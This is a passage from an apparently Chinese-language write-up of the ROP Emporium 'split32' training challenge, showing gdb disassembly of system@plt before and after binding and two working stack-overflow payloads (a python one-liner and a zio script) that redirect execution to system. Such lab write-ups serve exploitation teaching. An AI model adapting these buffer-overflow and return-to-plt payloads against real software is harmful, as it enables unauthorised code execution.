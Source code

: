 ```text
gdb-peda$ disassemble system
Dump of assembler code for function system@plt:
   0x08048430 <+0>:     jmp    DWORD PTR ds:0x804a018
   0x08048436 <+6>:     push   0x18
   0x0804843b <+11>:    jmp    0x80483f0
gdb-peda$ x/5x 0x804a018  
0x804a018:      0x08048436      0x08048446      0x08048456      0x08048466
0x804a028:      0x00000000
```

绑定后：

```text
gdb-peda$ disassemble system
Dump of assembler code for function system:
   0xf7df9c50 <+0>:     sub    esp,0xc
   0xf7df9c53 <+3>:     mov    eax,DWORD PTR [esp+0x10]
   0xf7df9c57 <+7>:     call   0xf7ef32cd <__x86.get_pc_thunk.dx>
   0xf7df9c5c <+12>:    add    edx,0x1951cc
   0xf7df9c62 <+18>:    test   eax,eax
   0xf7df9c64 <+20>:    je     0xf7df9c70 <system+32>
   0xf7df9c66 <+22>:    add    esp,0xc
   0xf7df9c69 <+25>:    jmp    0xf7df9700 <do_system>
   0xf7df9c6e <+30>:    xchg   ax,ax
   0xf7df9c70 <+32>:    lea    eax,[edx-0x57616]
   0xf7df9c76 <+38>:    call   0xf7df9700 <do_system>
   0xf7df9c7b <+43>:    test   eax,eax
   0xf7df9c7d <+45>:    sete   al
   0xf7df9c80 <+48>:    add    esp,0xc
   0xf7df9c83 <+51>:    movzx  eax,al
   0xf7df9c86 <+54>:    ret
End of assembler dump.
gdb-peda$ x/5x 0x08048430
0x8048430 <system@plt>: 0xa01825ff      0x18680804      0xe9000000      0xffffffb0
0x8048440 <__libc_start_main@plt>:      0xa01c25ff
```

其实这里讲 plt 不是很确切，因为 system 使用太频繁，在我们使用它之前，它就已经绑定了，在后面的挑战中我们会遇到没有绑定的情况。

两种 payload 如下：

```text
$ python2 -c "print 'A'*44 + '\x57\x86\x04\x08' + '\x30\xa0\x04\x08'" | ./split32
...
> ROPE{a_placeholder_32byte_flag!}
```

```python
from zio import *

payload  = "A"*44
payload += l32(0x08048430)
payload += "BBBB"
payload += l32(0x0804a030)

io = zio('./split32')
io.writeline(payload)
io.read()
```
